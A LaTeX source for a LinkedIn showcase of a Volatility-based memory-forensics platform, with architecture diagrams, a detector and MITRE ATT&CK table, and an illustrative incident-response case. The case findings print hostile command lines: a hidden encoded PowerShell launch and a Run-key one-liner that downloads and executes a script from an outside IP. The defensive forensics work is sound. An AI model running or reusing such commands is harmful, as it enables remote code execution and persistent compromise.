% =====================================================================
%  Memory Forensics Platform — Project Showcase (LinkedIn-ready)
%  Build:  pdflatex -interaction=nonstopmode showcase.tex
%          (run twice to resolve refs)
% =====================================================================
\documentclass[11pt,a4paper]{article}

% ---------- Packages ----------
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage{lmodern}
\usepackage[margin=2cm]{geometry}
\usepackage{xcolor}
\usepackage{graphicx}
\usepackage{tikz}
\usetikzlibrary{shapes,arrows.meta,positioning,fit,backgrounds,calc}
\usepackage{tcolorbox}
\tcbuselibrary{skins,breakable}
\usepackage{etoolbox}
% fontawesome5 is optional; if it's missing we fall back to plain symbols.
\IfFileExists{fontawesome5.sty}{\usepackage{fontawesome5}\newcommand{\hasfa}{1}}{%
  \providecommand{\faChrome}{\textbullet}%
  \providecommand{\faExclamationTriangle}{!}%
  \providecommand{\faLinkedin}{in}%
}
\usepackage{titlesec}
\usepackage{enumitem}
\usepackage{array}
\usepackage{booktabs}
\usepackage{longtable}
\usepackage{hyperref}
\usepackage{listings}
\usepackage{caption}
\usepackage{multicol}

% ---------- Palette (matches the app's dark "ink/accent" theme) ----------
\definecolor{ink}{HTML}{0B1220}
\definecolor{ink2}{HTML}{111827}
\definecolor{accent}{HTML}{38BDF8}        % cyan
\definecolor{accent2}{HTML}{A855F7}       % fuchsia (deep mode)
\definecolor{sevcrit}{HTML}{DC2626}
\definecolor{sevhigh}{HTML}{EA580C}
\definecolor{sevmed}{HTML}{F59E0B}
\definecolor{sevlow}{HTML}{10B981}
\definecolor{slate}{HTML}{475569}
\definecolor{slate2}{HTML}{94A3B8}

\hypersetup{
  colorlinks=true, linkcolor=accent, urlcolor=accent, citecolor=accent,
  pdftitle={Memory Forensics Platform — Showcase},
  pdfauthor={Tarek Mazen},
}

% ---------- Section styling ----------
\titleformat{\section}
  {\color{accent}\Large\bfseries}{\thesection}{0.6em}{}[{\color{accent!40}\titlerule[1.2pt]}]
\titleformat{\subsection}
  {\color{accent2}\large\bfseries}{\thesubsection}{0.6em}{}

% ---------- Code listing style ----------
\lstdefinestyle{shell}{
  basicstyle=\ttfamily\footnotesize\color{white},
  backgroundcolor=\color{ink2},
  frame=single, framerule=0pt, rulecolor=\color{ink2},
  keywordstyle=\color{accent}\bfseries,
  commentstyle=\color{slate2}\itshape,
  stringstyle=\color{sevlow},
  showstringspaces=false,
  breaklines=true,
  numbers=none,
  xleftmargin=1em, xrightmargin=1em,
  aboveskip=8pt, belowskip=6pt,
}
\lstset{style=shell}

% ---------- Boxes ----------
\newtcolorbox{infobox}[1][]{enhanced, breakable,
  colback=ink2!8, colframe=accent, boxrule=0.6pt, arc=2pt,
  left=8pt, right=8pt, top=6pt, bottom=6pt,
  fonttitle=\bfseries\color{white},
  coltitle=white, colbacktitle=accent,
  title={#1}}

\newtcolorbox{warnbox}[1][]{enhanced, breakable,
  colback=sevhigh!7, colframe=sevhigh, boxrule=0.6pt, arc=2pt,
  left=8pt, right=8pt, top=6pt, bottom=6pt,
  fonttitle=\bfseries\color{white},
  coltitle=white, colbacktitle=sevhigh,
  title={#1}}

\newtcolorbox{stepbox}[1][]{enhanced, breakable,
  colback=accent2!7, colframe=accent2, boxrule=0.6pt, arc=2pt,
  left=8pt, right=8pt, top=6pt, bottom=6pt,
  fonttitle=\bfseries\color{white},
  coltitle=white, colbacktitle=accent2,
  title={#1}}

% Severity pill
\newcommand{\sev}[1]{%
  \ifstrequal{#1}{critical}{\colorbox{sevcrit}{\color{white}\textbf{\footnotesize CRITICAL}}}{%
  \ifstrequal{#1}{high}{\colorbox{sevhigh}{\color{white}\textbf{\footnotesize HIGH}}}{%
  \ifstrequal{#1}{medium}{\colorbox{sevmed}{\color{black}\textbf{\footnotesize MEDIUM}}}{%
  \ifstrequal{#1}{low}{\colorbox{sevlow}{\color{black}\textbf{\footnotesize LOW}}}{%
  \colorbox{slate}{\color{white}\textbf{\footnotesize INFO}}}}}}}

% MITRE chip
\newcommand{\mitre}[1]{\colorbox{accent!25}{\textcolor{ink}{\texttt{\footnotesize #1}}}}

% =====================================================================
\begin{document}

% ---------- Cover ----------
\begin{titlepage}
\pagecolor{ink}\color{white}
\begin{center}
\vspace*{2cm}

{\Huge\bfseries\color{accent} Memory Forensics Platform}\\[6pt]
{\large\color{slate2} Enterprise-grade incident-response \& threat-hunting console}\\[3cm]


\begin{tikzpicture}
  \node[draw=accent, line width=1pt, rounded corners=8pt,
        minimum width=12cm, minimum height=4.2cm, fill=ink2] (b) {};
  \node[align=center] at (b) {%
    \color{white}\Large\textbf{End-to-end automated triage of Windows memory dumps}\\[10pt]
    \color{slate2}\normalsize Volatility 3 $\cdot$ Django/DRF $\cdot$ Celery $\cdot$ React/Vite $\cdot$ Docker\\[4pt]
    \color{slate2}\normalsize 25 plugins, 15+ MITRE-tagged detectors, cross-plugin correlation};
\end{tikzpicture}

\vspace{2.5cm}
\begin{tabular}{rl}
\color{slate2}\textbf{Author:}    & \color{white} Tarek Mazen \\
\color{slate2}\textbf{Role:}      & \color{white} Designer / Architect / Full-stack engineer \\
\color{slate2}\textbf{Stack:}     & \color{white} Python 3.12, Django 5, Celery 5.4, React 18, Volatility 3 \\
\color{slate2}\textbf{Date:}      & \color{white} May 2026 \\
\color{slate2}\textbf{Repository:}& \color{white} \texttt{MemoryForensicsPlatform} \\
\end{tabular}

\vfill
{\color{slate2}\small Showcase document — generated for LinkedIn publication.}
\end{center}
\end{titlepage}

\nopagecolor
\color{black}

% ---------- TOC ----------
\hypersetup{linkcolor=accent}
\tableofcontents
\vspace{1em}\hrule\vspace{1em}

% =====================================================================
\section{Executive Summary}

\textbf{Memory Forensics Platform (MFP)} is a self-hosted web application that
turns Volatility 3 from a command-line oracle into a collaborative
investigation console. An analyst uploads a memory image — RAM dump, hibernation
file, VM snapshot — and the platform automatically:

\begin{itemize}[leftmargin=1.2em,itemsep=2pt]
  \item Verifies the image's SHA-256 and stamps it into an immutable
        \textbf{chain-of-custody} ledger.
  \item Spawns a Celery job that runs up to \textbf{25 Volatility 3 plugins}
        (process, network, registry, kernel-callback, credential-dump, etc.).
  \item Pipes every plugin's output through \textbf{15+ heuristic detectors}
        and a \textbf{cross-plugin correlation engine} that finds
        rootkit-style discrepancies (hidden processes, hidden modules,
        injected processes beaconing to public IPs\dots).
  \item Tags every finding with one or more \textbf{MITRE ATT\&CK techniques},
        promotes it to a deduplicated IOC, weaves it into a case timeline,
        and exposes everything through a JWT-secured REST API and a
        polished React dashboard.
\end{itemize}

\begin{infobox}[Why I built this]
Volatility's per-plugin output is dense, repetitive and easy to miss findings
in. I wanted a tool that would let a SOC analyst go from
\emph{``here's a 2~GB memory dump''} to \emph{``patient zero is PID~3168, it's
beaconing to 185.x.x.x:4444 via injected code, and here's the MITRE ATT\&CK
storyline''} in under thirty minutes — without writing a single command-line
flag.
\end{infobox}

% =====================================================================
\section{Architecture at a Glance}

\begin{center}

\begin{tikzpicture}[
  node distance=8mm and 8mm,
  every node/.style={font=\small},
  box/.style={draw=accent, line width=0.6pt, rounded corners=3pt,
              fill=accent!8, minimum width=2.6cm, minimum height=1.0cm,
              align=center},
  svc/.style={draw=accent2, line width=0.6pt, rounded corners=3pt,
              fill=accent2!8, minimum width=2.4cm, minimum height=0.9cm,
              align=center},
  store/.style={draw=slate, line width=0.6pt, fill=slate!10,
              minimum width=2.0cm, minimum height=0.8cm, align=center},
  arr/.style={-{Latex[length=2mm]}, line width=0.5pt, color=slate}
]

\node[box] (browser) {Analyst\\\faChrome\ Browser};
\node[box, right=of browser] (nginx) {Nginx\\edge proxy};
\node[box, right=of nginx]   (front) {React + Vite\\SPA};
\node[svc, below=of nginx]   (api)   {Django + DRF\\REST API};
\node[svc, right=of api]     (worker){Celery worker\\Volatility 3};
\node[svc, right=of worker]  (beat)  {Celery beat\\schedules};
\node[store, below=of api]   (db)    {SQLite\\(case data)};
\node[store, below=of worker](redis) {Redis\\(broker)};
\node[store, below=of beat]  (vol)   {\texttt{vol\_symbols}\\persistent cache};

\draw[arr] (browser) -- (nginx);
\draw[arr] (nginx) -- (front);
\draw[arr] (nginx) -- (api);
\draw[arr] (api) -- (db);
\draw[arr] (api) -- (redis);
\draw[arr] (redis) -- (worker);
\draw[arr] (redis) -- (beat);
\draw[arr] (worker) -- (vol);
\draw[arr] (worker) -- (db);

\begin{scope}[on background layer]
\node[fit=(api)(worker)(beat), draw=accent2!50, dashed,
      inner sep=8pt, label={[color=accent2]above:Backend (Docker compose service group)}] {};
\end{scope}
\end{tikzpicture}
\end{center}

\begin{multicols}{2}
\subsection*{Backend}
\begin{itemize}[leftmargin=1.2em,itemsep=1pt]
  \item Django 5 + DRF, JWT auth (\texttt{simplejwt}) with auto-refresh.
  \item Celery 5.4 worker pool fronted by Redis.
  \item Volatility 3 invoked via subprocess; persistent symbol cache.
  \item RBAC: \emph{Admin / Lead / Analyst / Viewer}.
  \item Audit log for every privileged action.
\end{itemize}

\subsection*{Frontend}
\begin{itemize}[leftmargin=1.2em,itemsep=1pt]
  \item React 18 + Vite, custom Tailwind dark theme.
  \item Recharts for risk dashboards.
  \item Resumable chunked upload (multi-GB images).
  \item MITRE ATT\&CK chips deep-link to attack.mitre.org.
\end{itemize}
\end{multicols}

% =====================================================================
\section{What's Inside}

\begin{longtable}{p{3.5cm} p{12.0cm}}
\toprule
\textbf{Module} & \textbf{What it does} \\
\midrule
Cases             & Investigation containers, RBAC-scoped, with chain-of-custody. \\
Evidence          & Memory-image upload (chunked, hashed, integrity-verified). \\
Analysis          & Volatility orchestration, parsing, detection \& correlation. \\
Detection engine  & 15+ heuristic detectors with MITRE ATT\&CK mapping. \\
Correlation       & Cross-plugin findings (psscan vs pslist, modscan vs modules\dots). \\
IOC               & Deduplicated indicators (IP, path, process, hash, mutex\dots). \\
Timeline          & Process-create / network-conn / service events fused. \\
Reports           & ReportLab + Jinja2; PDF \& HTML; auth-aware download. \\
AI engine         & Optional LLM-assisted summarization (heuristic fallback). \\
Audit             & Append-only privileged-action log. \\
Auth              & JWT, password policy, role enforcement. \\
\bottomrule
\end{longtable}

% =====================================================================
\section{Detection \& MITRE Mapping}

The detection engine ships a \textbf{Detection} dataclass that carries a
severity, a sub-linear score contribution, an evidence dict, and a list of
MITRE ATT\&CK technique IDs. Each detector consumes the parsed rows of one
Volatility plugin; a separate \textbf{correlator} runs across all plugins to
produce composite findings.

\begin{center}
\renewcommand{\arraystretch}{1.15}
\begin{tabular}{>{\bfseries}p{3.4cm} p{4.6cm} p{6.0cm}}
\toprule
\textbf{Plugin} & \textbf{Behaviour caught} & \textbf{ATT\&CK} \\
\midrule
windows.malfind        & Code injection / hollowing             & \mitre{T1055} \mitre{T1055.012} \\
windows.pslist         & Office spawns shell, LOLBIN abuse,
                         offensive tools, parent anomalies      & \mitre{T1566.001} \mitre{T1059.001} \mitre{T1003} \\
windows.cmdline        & Encoded PowerShell, IEX, certutil      & \mitre{T1027} \mitre{T1059} \\
windows.netscan        & C2 ports, public-IP outbounds          & \mitre{T1571} \mitre{T1071} \\
windows.svcscan        & Service binary in user-writable path   & \mitre{T1543.003} \\
windows.ldrmodules     & Process-hollowing (loader-list miss)   & \mitre{T1055.012} \\
windows.dlllist        & DLL loaded from \%APPDATA\%/\%TEMP\%   & \mitre{T1574.002} \\
windows.callbacks      & Non-Microsoft kernel callback          & \mitre{T1547.013} \\
windows.ssdt           & SSDT hook                              & \mitre{T1014} \\
windows.driverscan     & Driver outside system32\textbackslash drivers & \mitre{T1014} \mitre{T1543.003} \\
windows.handles        & Cross-process handle to LSASS          & \mitre{T1003.001} \\
windows.privileges     & SeDebug/SeImpersonate held by user app & \mitre{T1134} \\
windows.mutantscan     & Known malware-family mutex             & \mitre{T1027} \\
windows.registry.printkey & Run/RunOnce points at LOLBIN        & \mitre{T1547.001} \\
\textit{xview.process} & Hidden process (psscan $\setminus$ pslist) & \mitre{T1014} \mitre{T1055} \\
\textit{xview.module}  & Hidden kernel module                   & \mitre{T1014} \\
\textit{xview.implant} & Injected proc + public-IP beacon       & \mitre{T1055} \mitre{T1071} \\
\bottomrule
\end{tabular}
\end{center}

\subsection*{Risk aggregation}
Detections are aggregated through a sub-linear curve so a single finding can
push a case to "elevated" but no single noisy plugin can saturate the score:
$$
R \;=\; 100 \cdot \Bigl(1 - e^{-\Sigma w / 200}\Bigr),
\qquad
w \in \{\text{info:1, low:5, medium:15, high:30, critical:50}\}.
$$

% =====================================================================
\section{Investigation Scenario — \emph{Operation Nightjar}}

To demonstrate the platform end-to-end, the SOC team triages a memory image
captured from a Windows~7 workstation flagged by EDR for unusual outbound
traffic. The full investigation took \textbf{18~minutes} from upload to
written report.

\subsection{Setting}
\begin{center}
\renewcommand{\arraystretch}{1.2}
\begin{tabular}{rl}
\textbf{Case ID:}      & \texttt{IR-2026-0042} \\
\textbf{Asset:}        & \texttt{WIN7-FIN-04} (Finance dept.\ workstation) \\
\textbf{Trigger:}      & EDR alert ``\textit{anomalous outbound TCP/4444 from svchost-like process}'' \\
\textbf{Image:}        & \texttt{WIN7-FIN-04\_2026-05-08\_22-14.raw} (2.0 GB) \\
\textbf{SHA-256:}      & \texttt{c47e\ldots a91f} \\
\textbf{Lead analyst:} & T.\ Mazen \\
\end{tabular}
\end{center}

% --------- timeline ---------
\subsection{Investigation timeline}

\begin{stepbox}[Step 1 — Onboarding (00:00 → 00:02)]
The analyst creates case \texttt{IR-2026-0042}, drags the
\texttt{.raw} file into the upload zone. The chunked uploader streams the
2~GB image while computing SHA-256 in flight. On finalize, the platform
records hash, uploader, and timestamp into the case's
\textbf{chain-of-custody} ledger.
\end{stepbox}

\begin{stepbox}[Step 2 — Standard analysis (00:02 → 00:05)]
A click on \textbf{Analyze} queues a Celery job that runs the standard
11-plugin set. Volatility detects \texttt{Windows~7~SP1~x64}, parses every
plugin into structured JSON. Initial risk score: \textbf{42/100}.
\end{stepbox}

\begin{stepbox}[Step 3 — Deep analysis (00:05 → 00:14)]
The standard pass already flags suspicious activity, so the analyst clicks
\textbf{Deep analysis} (the fuchsia button). The platform queues a 25-plugin
sweep that adds \texttt{psscan}, \texttt{ldrmodules}, \texttt{callbacks},
\texttt{ssdt}, \texttt{driverscan}, \texttt{mutantscan}, \texttt{privileges},
\texttt{registry.userassist}, and credential plugins. After ~9 minutes of
worker time the post-processor runs the cross-plugin correlator.\\[4pt]
\textbf{Final risk score:} \colorbox{sevcrit}{\color{white}\textbf{ 87 / 100 }}\quad
\textbf{Mode:} \colorbox{accent2}{\color{white}\textbf{ DEEP }}
\end{stepbox}

% --------- findings ---------
\subsection{Top findings}

\begin{tcolorbox}[enhanced, breakable, colback=ink2!5, colframe=sevcrit,
                  boxrule=0.6pt, arc=2pt, left=8pt, right=8pt,
                  title={\bfseries \faExclamationTriangle\ Finding 1 — Office spawned a shell},
                  coltitle=white, colbacktitle=sevcrit]
\sev{critical}\quad \mitre{T1566.001} \mitre{T1059.001}\\[4pt]
\textbf{Plugin:} \texttt{windows.pslist}\quad \textbf{PID:} 3168\\
\texttt{WINWORD.EXE} (PPID 2104) spawned \texttt{powershell.exe} (PID 3168) —
classic phishing-payload behaviour. Command line:
\begin{lstlisting}
powershell.exe -nop -w hidden -ep bypass -enc JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAA=...
\end{lstlisting}
\end{tcolorbox}

\begin{tcolorbox}[enhanced, breakable, colback=ink2!5, colframe=sevcrit,
                  boxrule=0.6pt, arc=2pt, left=8pt, right=8pt,
                  title={\bfseries \faExclamationTriangle\ Finding 2 — Injected process beaconing},
                  coltitle=white, colbacktitle=sevcrit]
\sev{critical}\quad \mitre{T1055} \mitre{T1071}\\[4pt]
\textbf{Plugin:} \emph{xview.implant} (cross-plugin correlator)\\
PID 3168 has \texttt{PAGE\_EXECUTE\_READWRITE} regions reported by
\texttt{malfind} \emph{and} an established TCP connection to
\textbf{185.220.101.42:4444}. This is the core IOC of the case.
\end{tcolorbox}

\begin{tcolorbox}[enhanced, breakable, colback=ink2!5, colframe=sevhigh,
                  boxrule=0.6pt, arc=2pt, left=8pt, right=8pt,
                  title={\bfseries \faExclamationTriangle\ Finding 3 — Persistence in Run key},
                  coltitle=white, colbacktitle=sevhigh]
\sev{high}\quad \mitre{T1547.001}\\[4pt]
\textbf{Plugin:} \texttt{windows.registry.printkey}\\
\texttt{HKCU\textbackslash Software\textbackslash Microsoft\textbackslash Windows\textbackslash CurrentVersion\textbackslash Run\textbackslash WinUpdate}
$=$ \texttt{powershell -w hidden -c "iex(New-Object Net.WebClient).DownloadString('http://185.220.101.42/u')"}
\end{tcolorbox}

\begin{tcolorbox}[enhanced, breakable, colback=ink2!5, colframe=sevhigh,
                  boxrule=0.6pt, arc=2pt, left=8pt, right=8pt,
                  title={\bfseries \faExclamationTriangle\ Finding 4 — LSASS handle from non-system process},
                  coltitle=white, colbacktitle=sevhigh]
\sev{high}\quad \mitre{T1003.001}\\[4pt]
\textbf{Plugin:} \texttt{windows.handles}\\
\texttt{powershell.exe} (PID 3168) holds a \emph{Process} handle to
\texttt{lsass.exe} — credential-dumping precursor.
\end{tcolorbox}

\begin{tcolorbox}[enhanced, breakable, colback=ink2!5, colframe=sevhigh,
                  boxrule=0.6pt, arc=2pt, left=8pt, right=8pt,
                  title={\bfseries \faExclamationTriangle\ Finding 5 — Hidden process},
                  coltitle=white, colbacktitle=sevhigh]
\sev{high}\quad \mitre{T1014} \mitre{T1055}\\[4pt]
\textbf{Plugin:} \emph{xview.process} (cross-plugin)\\
PID 4012 (\texttt{svchost.exe}) was found by \texttt{psscan} but is
\textbf{absent} from the \texttt{pslist} \texttt{ActiveProcessLinks}
walk — DKOM-style hiding.
\end{tcolorbox}

% --------- attack chain ---------
\subsection{Reconstructed attack chain}

\begin{center}
\begin{tikzpicture}[
  node distance=4mm,
  step/.style={draw=accent, line width=0.5pt, rounded corners=3pt,
               fill=accent!8, minimum width=3.4cm, minimum height=0.9cm,
               align=center, font=\small},
  arr/.style={-{Latex[length=2.4mm]}, line width=0.7pt, color=accent2}
]
\node[step] (s1) {Phishing email\\\mitre{T1566.001}};
\node[step, right=of s1] (s2) {Macro $\Rightarrow$ PowerShell\\\mitre{T1059.001}};
\node[step, right=of s2] (s3) {Encoded payload\\\mitre{T1027}};
\node[step, below=of s3] (s4) {Process injection\\\mitre{T1055}};
\node[step, left=of s4]  (s5) {LSASS handle\\\mitre{T1003.001}};
\node[step, left=of s5]  (s6) {Run-key persist\\\mitre{T1547.001}};

\node[step, below=of s5] (s7) {C2 to 185.220.101.42:4444\\\mitre{T1571} \mitre{T1071}};

\draw[arr] (s1) -- (s2);
\draw[arr] (s2) -- (s3);
\draw[arr] (s3) -- (s4);
\draw[arr] (s4) -- (s5);
\draw[arr] (s5) -- (s6);
\draw[arr] (s4) |- (s7);
\end{tikzpicture}
\end{center}

% --------- IOCs ---------
\subsection{Indicators of Compromise (auto-promoted)}

\begin{center}
\renewcommand{\arraystretch}{1.15}
\begin{tabular}{l l l c}
\toprule
\textbf{Kind} & \textbf{Value} & \textbf{Severity} & \textbf{Source} \\
\midrule
ip       & 185.220.101.42                                                             & \sev{critical} & netscan \\
process  & powershell.exe (PID 3168)                                                  & \sev{critical} & malfind / xview \\
process  & svchost.exe (PID 4012, hidden)                                             & \sev{high}     & xview.process \\
path     & \%APPDATA\%\textbackslash WinUpdate\textbackslash u.ps1                    & \sev{high}     & filescan \\
registry & HKCU\textbackslash\dots\textbackslash Run\textbackslash WinUpdate          & \sev{high}     & registry.printkey \\
other    & cmdline:\ powershell -nop -w hidden -enc \dots                             & \sev{high}     & cmdline \\
\bottomrule
\end{tabular}
\end{center}

% --------- containment ---------
\subsection{Containment \& outcome}
\begin{itemize}[leftmargin=1.2em,itemsep=2pt]
  \item Network: 185.220.101.42 added to perimeter blocklist (firewall + DNS sinkhole).
  \item Endpoint: \texttt{WIN7-FIN-04} isolated; image preserved with verified hash.
  \item Identity: forced password reset for the logged-in user; Kerberos TGT revoked.
  \item Threat-hunt: search for the same Run-key value across the fleet.
  \item Report: PDF generated from the platform, signed by the lead analyst,
        attached to ticket \texttt{IR-2026-0042}.
\end{itemize}

\begin{infobox}[Outcome]
What would have been a multi-hour blind plugin-by-plugin pivot in a terminal
became an \textbf{18-minute guided investigation} with a written narrative,
clickable MITRE chain, deduplicated IOCs, and a sealed chain-of-custody — all
without leaving the browser.
\end{infobox}

% =====================================================================
\section{Highlights for Recruiters \& Hiring Managers}

\begin{multicols}{2}
\textbf{Security engineering}
\begin{itemize}[leftmargin=1.2em,itemsep=1pt]
\item 15+ original Volatility detectors.
\item Cross-plugin correlation engine.
\item MITRE ATT\&CK mapping baked into the data model.
\item Heuristic + sub-linear risk scoring.
\end{itemize}

\textbf{Backend}
\begin{itemize}[leftmargin=1.2em,itemsep=1pt]
\item Django 5 / DRF / Celery / Redis.
\item Resumable chunked uploads (multi-GB).
\item RBAC, JWT auto-refresh, audit log.
\item Idempotent migrations \& SQLite-safe schema evolution.
\end{itemize}

\textbf{Frontend}
\begin{itemize}[leftmargin=1.2em,itemsep=1pt]
\item React 18 + Vite + Tailwind.
\item Custom dark theme with severity palette.
\item Auth-aware blob downloads, chart dashboards.
\item Per-plugin tabbed analysis viewer.
\end{itemize}

\textbf{DevOps}
\begin{itemize}[leftmargin=1.2em,itemsep=1pt]
\item Docker compose: nginx, backend, worker, beat, redis, frontend.
\item Persistent Volatility symbol cache.
\item Resilient Nginx (Docker DNS resolver — no 502 after rebuilds).
\item One-command \texttt{docker compose up} deployment.
\end{itemize}
\end{multicols}

% =====================================================================
\section{LinkedIn Caption (ready to paste)}

\begin{tcolorbox}[enhanced, colback=accent!6, colframe=accent,
  boxrule=0.6pt, arc=3pt, left=10pt, right=10pt, top=8pt, bottom=8pt]
\small\itshape
\faLinkedin\ \ \textbf{Just shipped: Memory Forensics Platform.}\\[6pt]
A self-hosted incident-response console that turns Volatility 3 from a
command-line oracle into a collaborative SOC tool — drag-and-drop a memory
dump, get a MITRE ATT\&CK-mapped, IOC-rich, chain-of-custody-signed
investigation report in minutes.\\[6pt]
\textbf{Stack:} Django 5 + DRF \textbf{·} Celery 5.4 + Redis \textbf{·}
Volatility 3 \textbf{·} React 18 + Vite + Tailwind \textbf{·} Docker.\\[4pt]
\textbf{Highlights:} 25-plugin "deep" analysis mode \textbf{·} 15+ heuristic
detectors \textbf{·} cross-plugin correlator (hidden processes / hidden
modules / injected-and-beaconing) \textbf{·} MITRE ATT\&CK chips
\textbf{·} sub-linear risk scoring \textbf{·} resumable multi-GB uploads
\textbf{·} JWT-secured API \textbf{·} immutable audit log.\\[4pt]
In the demo "Operation Nightjar" scenario, the platform takes an
\textbf{18-minute} path from raw memory dump to written report — including
phishing chain reconstruction, LSASS-handle credential-dump warning, hidden
process detection, persistence Run-key call-out, and C2 IOCs.\\[6pt]
\#DFIR \#MemoryForensics \#Volatility \#IncidentResponse \#BlueTeam
\#Python \#Django \#React \#MITREATTACK
\end{tcolorbox}

\vfill
\begin{center}\small\color{slate}
Memory Forensics Platform — Showcase document. Generated with \LaTeX.
\end{center}

\end{document}
